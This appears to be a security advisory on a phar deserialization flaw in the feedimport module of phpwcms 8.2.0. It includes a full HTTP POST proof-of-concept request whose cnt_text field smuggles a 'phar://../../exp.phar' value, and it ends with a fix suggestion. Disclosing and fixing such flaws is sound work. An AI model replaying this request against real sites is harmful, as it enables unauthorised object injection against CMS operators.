

# `phar` deserialization vulnerability `feedimport` function

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the feedimport module through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cnt_text' parameter in the feedimport module, which triggers PHP's deserialization mechanism. This vulnerability allows attackers to inject PHP Objects through a PHAR file using a directory traversal attack pattern (../../). No known POP (Property Oriented Programming) chain has been identified in the core application, meaning this vulnerability may have limited impact unless other components with suitable gadgets are installed. If a POP chain exists through additional components, attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.


```text
POST /phpwcms.php?csrftoken=11172a0bf9955932b9f064e5215c098f&do=modules&module=feedimport&edit=0 HTTP/1.1
Host: dem0.com
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dem0.com/phpwcms.php?do=modules&module=feedimport&edit=0&csrftoken=11172a0bf9955932b9f064e5215c098f&PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=tccfqjoqbdgd7f0jvhngq0utrk; phpwcmsBELang=en
Origin: http://dem0.com
Content-Length: 617

csrf_token_name=csrf682596161e0424.63421746&csrf_token_value=52c8bb1a370199c1ec7a45006e8c78ffa76c3ac9402ba651468347846a372c4f9475a8d316adbed661297207438779390450b4d14523bbd434bcb954c23f24a0&id=0&cnt_name=rss&cnt_text=phar%3A%2F%2F..%2F..%2Fexp.phar&cnt_object-structure_level_id=-2&cnt_object-article_template_detail=default&cnt_object-article_template_list=default&cnt_object-image_folder_id=0&cnt_object-image_url_replace=a&cnt_object-feed_cache_timeout=14400&cnt_object-author_id=1&cnt_object-author_name=Webmaster&cnt_object-source_link_text=a&cnt_object-import_status_email=a&cnt_status=1&submit=create&cnt_prio=
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to ensure that the URLs passed to createFileFromUrl are valid and only allow the `HTTP` or `HTTPS` protocols. Malicious attackers may attempt to pass URLs using other protocols, such as `phar://`, which could trigger the deserialization vulnerability. Proper validation and filtering of URLs are critical for mitigating this risk.

